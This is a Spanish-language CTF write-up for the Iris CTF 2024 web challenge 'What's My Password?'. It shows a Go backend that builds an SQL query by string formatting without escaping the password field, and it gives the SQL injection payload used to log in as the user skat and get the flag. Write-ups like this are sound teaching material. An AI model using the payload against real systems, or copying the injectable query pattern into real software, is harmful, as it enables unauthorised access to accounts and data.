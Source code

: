 # What's My Password? (Iris CTF 2024 - Web Exploitation)

## Challenge
[baby] Oh no! Skat forgot their password (again)!

Can you help them find it?

https://whats-my-password-web.chal.irisc.tf

### Resource
[Download whats-my-password.tar.gz](https://cdn.2024.irisc.tf/whats-my-password.tar.gz)

## Solve manual

Extraemos el archivo whats-my-password.tar.gz:

```bash
7z x ./resource/whats-my-password.tar.gz -o./resource/
```

```bash
7z x ./resource/whats-my-password.tar -o./resource/
```

Abrimos ./resource/whats-my-password/

En primer lugar vemos las queries Data Manipulation Language (DML) y Data Control Language (DCL) de la db en setup.sql:

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

Obtenemos como dato que la columna de la contraseña es password y el user de Skat (que olvidó su password) es skat.

En ./resource/whats-my-password/src/main.go vemos el código del backend.

Obtenemos como dato que sanitiza el usuario pero no la password:

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

query, err := DB.Query(qstring)
```

Por lo tanto, la query es vulnerable a SQL Injection.

La password a ingresar será `" OR username = 'skat'"`

Payload (visto en la network request de la consola de desarrollador de google chrome):

![whats-my-password.web-exploitation-payload.png](./images/whats-my-password.web-exploitation-payload.png)

Response (visto en la network request de la consola de desarrollador de google chrome):

![whats-my-password.web-exploitation-response.png](./images/whats-my-password.web-exploitation-response.png)


### Flag
Flag: `irisctf{my_p422W0RD_1S_SQl1}`

![Solved](./images/whats-my-password.web-solved.png)

## Solve utilizando solve.py

Se deberá ejecutar el siguiente comando:

```bash
python solve.py
```

Mostrará en el output la flag y escribirá la misma en el archivo flag.txt dentro del directorio relativo ./solve

![Solved using python script](./images/whats-my-password.web-python-solve.png)